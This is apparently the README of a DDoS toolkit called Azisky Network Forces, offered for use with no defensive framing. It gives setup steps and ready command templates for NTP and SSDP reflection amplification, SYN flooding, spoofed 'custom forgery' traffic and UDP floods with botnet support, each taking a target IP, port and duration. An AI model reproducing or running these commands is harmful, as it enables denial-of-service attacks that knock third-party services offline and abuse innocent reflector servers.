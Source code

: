 Azisky Network Forces(ANF)
----------------------------
This script is running on Linux system. anf/server/ is for windows user, but you have to have a web package sender server to run this.
------------------------------------------------------------------------------------------------------------------------------------------


For Linux user(CC)：
----------------
1: You need to upload this to your system.
2: Open terminal, use "./anf" to run anf
3: Follow the guides&examples to launch your attach!


For Windows user(DDOS):
-----------------
You will have to own a package sender server. 
- Update ntp script: "./ANFDDOS ntp update -1" 
- Update udp script: "./ANFDDOS udp update -1" 
- Update syn script: "./ANFDDOS syn update -1" 
- attack : "sudo -i" 
- custom forgery ： "./la us 100 ntp udp ssdp -1"
There are following methods to attach:

- NTP reflection amplification(Recommended) ： "./ntp {ip} {port} ntp.txt 10 -1 {time(seconds)}"
- SSDP reflection : "./ssdp {ip} {port} ssdp.txt 10 -1 {time(seconds)}"
- SYN flood : "./syn {ip} {port} {time(seconds)}"
- UDP botnet ： "./udp {ip} {port} 10 888 -1 {time(seconds)}" (botnet supported)
